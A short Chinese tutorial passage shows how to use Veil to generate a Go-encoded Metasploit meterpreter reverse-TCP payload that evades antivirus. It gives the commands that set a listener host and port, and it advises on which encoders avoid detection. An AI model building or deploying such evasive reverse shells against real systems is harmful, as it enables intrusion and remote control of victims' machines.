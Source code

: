 ![image-20220527094613602](./images/202205270946813.png)

推荐使用以go和ruby语言encode的编码方式。像python这类的与用户有较高的交互就容易被查杀。

veil原理可以参考：https://xz.aliyun.com/t/4191

### 使用veil直接生成exe(VT查杀率44/69)

veil可以直接生成支持msf的payload，我们先试一下看看效果。

使用go语言生成msf的payload

```
Veil/Evasion>: use 16
```

设置好msf的监听主机和端口：

```
[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate
```
